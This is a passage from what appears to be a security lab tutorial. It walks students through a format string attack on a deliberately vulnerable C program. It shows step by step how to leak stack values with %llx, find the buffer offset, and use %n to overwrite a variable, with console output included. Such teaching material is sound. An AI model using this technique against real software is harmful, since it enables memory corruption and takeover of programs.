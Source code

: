 Go into `printf-features/` subfolder and browse the `printf-features.c` file.
Compile the executable file using:

```console
make
```

and then run the resulting executable file using

```console
./printf-features
```

Go through the `printf-features.c` file again and check how print, length and conversion specifiers are used by `printf`.
We will make use of the `%n` feature that allows memory writes, a requirement for attacks.

## Basic Format String Attack

You will now do a basic format string attack using the `03-basic-format-string/` subfolder.
The source code is in `basic_format_string.c` and the executable is in `basic_format_string`.

You need to use `%n` to overwrite the value of the `v` variable to `0x300`.
You have to do three steps:

1. Determine the address of the `v` variable using `nm`.

1. Determine the `n`-th parameter of `printf()` that you can write to using `%n`.
   The `buffer` variable will have to be that parameter;
   you will store the address of the `v` variable in the `buffer` variable.

1. Construct a format string that enables the attack;
   the number of characters processed by `printf()` until `%n` is matched will have to be `0x300`.

For the second step let's run the program multiple times and figure out where the `buffer` address starts.
We fill `buffer` with the `aaaa` string and we expect to discover it using the `printf()` format specifiers.

```console
$  ./basic_format_string
AAAAAAAA
%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx
7fffffffdcc07fffffffdcc01f6022897ffff7fd44c0786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25

$ ./basic_format_string
AAAAAAAA
%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx
x7fffffffdcc07fffffffdcc0116022917ffff7dd18d06c6c25786c6c25786c6c25786c6c25786c6c25786c6c25787fffffffdcc07fffffffdcc01f6022917ffff7fd44c0786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c2540000a

$ ./basic_format_string
AAAAAAAA
%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx
7fffffffdcc07fffffffdcc01f6022997ffff7fd44c0786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c25786c6c2540000a4141414141414141
```
